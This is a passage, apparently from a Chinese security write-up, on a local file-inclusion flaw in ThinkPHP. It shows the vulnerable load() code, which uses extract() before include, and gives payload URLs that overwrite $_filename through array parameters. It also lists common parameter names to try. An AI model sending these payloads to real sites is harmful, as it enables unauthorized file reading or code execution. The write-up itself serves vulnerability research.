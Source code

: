 ```
/**     * 加载文件     * @access public     * @param string $filename  文件名     * @param array $vars  传入变量     * @return void             */    public function load($_filename,$vars=null){        if(!is_null($vars))            extract($vars, EXTR_OVERWRITE);        include $_filename;    }
```

```
http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=.\
```

> 3.限定条件下参数的收集

很多利用Thinkphp二开的cms，value的值不确定，以下列出常见的：

```
paramnamevaluearrayarrinfolistpagemenusvardatamoudlemodule
```

最终payload例如：

```
http://127.0.0.1/index.php?m=Home&c=Index&a=index&info[_filename]=.\
```